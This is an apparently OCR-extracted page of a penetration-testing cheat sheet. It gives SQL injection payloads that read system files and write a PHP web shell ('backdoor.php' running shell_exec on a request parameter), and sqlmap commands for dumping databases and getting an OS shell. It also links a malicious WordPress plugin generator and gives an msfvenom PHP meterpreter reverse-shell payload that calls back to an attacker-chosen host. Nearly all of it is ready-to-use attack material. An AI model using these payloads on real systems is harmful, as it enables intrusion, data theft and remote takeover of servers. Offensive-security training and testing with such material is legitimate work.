 ### SQL Injection to Code Execution 
Read files from filesystem:
```SQL
=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Write files to filesystem:
```SQL
=1 union all select 1, 2,"<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>" into OUTFILE 'c:/wwwdirectory/backdoor.php'
```

After that call the file with cmd parameter:
http://\<URL\>/backdoor.php?cmd=\<COMMAND\>

### Automated SQL Injections / Sqlmap
```bash
sqlmap -u http://<URL>/file.php?id=1 -p "id"
```

use recorded request from burp with sqlmap:
```bash
sqlmap -r <FILENAME>
```

#### Dump database with sqlmap
```bash
sqlmap -u http://<URL>/file.php?id=1 -p "id" --dbms=<DBMS> --dump
```
This also creates csv files with the data.


#### Code Execution with sqlmap
```bash
sqlmap -u http://<URL>/file.php?id=1 -p "id" --dbms=<DBMS> --os-shell
```


## Wordpress Exploiting
When you have valid admin credentials for Wordpress installation use following script to generate malicious plugin and uploading the generated plugin to WP.
[https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py](https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py)

## Creating Exploits with msfvenom
### Web Payloads

#### PHP Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
Don't forget to remove the starting chars of the generated file.
